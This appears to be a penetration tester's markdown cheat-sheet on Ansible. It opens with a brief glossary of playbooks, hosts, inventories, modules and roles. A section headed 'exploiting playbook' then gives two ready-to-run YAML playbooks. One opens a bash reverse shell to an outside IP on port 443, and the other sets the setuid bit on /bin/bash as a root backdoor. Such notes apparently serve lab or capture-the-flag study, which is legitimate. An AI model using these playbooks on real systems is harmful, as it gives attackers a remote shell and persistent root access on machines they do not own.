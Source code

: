 # ansible
## How does Ansible work?
- YAML config files
- `Playbooks`   An ordered list of tasks along with its necessary parameters that define a recipe to configure a system.
- `Host`        A remote machine managed by Ansible.
- `Group`       Several hosts grouped together that share a common attribute.
- `Inventory`   A collection of all the hosts and groups that Ansible manages.
Could be a static file in the simple cases or we can pull the inventory from remote sources, such as cloud providers.
- `Modules`     Units of code that Ansible sends to the remote nodes for execution.
- `Tasks`       Units of action that combine a module and its arguments along with some other parameters.
- `Roles`       Redistributable units of organization that allow users to share automation code easier.

Ansible uses the concepts of control and managed nodes.
It connects from the control node, any machine with Ansible installed, to the managed nodes sending commands and instructions to them.
The units of code that Ansible executes on the managed nodes are called modules.
Each module is invoked by a task, and an ordered list of tasks together forms a playbook.
Users write playbooks with tasks and modules to define the desired state of the system.
https://spacelift.io/blog/ansible-tutorial

## exploiting playbook
https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/

### rev shell
```yaml
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.22/443 0>&1'
```

### priv esc backdoor
```yaml
- name: "whatever"
  hosts: localhost
  connection: local
  tasks:
    - name: "whatever"
      shell: "chmod +s /bin/bash"
      register: "output"
```
